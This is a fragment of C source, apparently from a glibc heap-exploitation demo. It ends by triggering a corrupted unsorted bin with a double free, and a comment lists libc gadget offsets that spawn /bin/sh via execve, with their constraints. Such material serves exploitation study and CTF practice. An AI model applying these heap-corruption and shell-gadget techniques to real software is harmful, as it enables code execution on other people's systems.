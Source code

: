 ```C
	// unsorted bin is corrputed
	// just trigger it
	p3 = malloc(0x20);
	free(p3);
	free(p3);


	return 0;
}

/*
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
*/

```

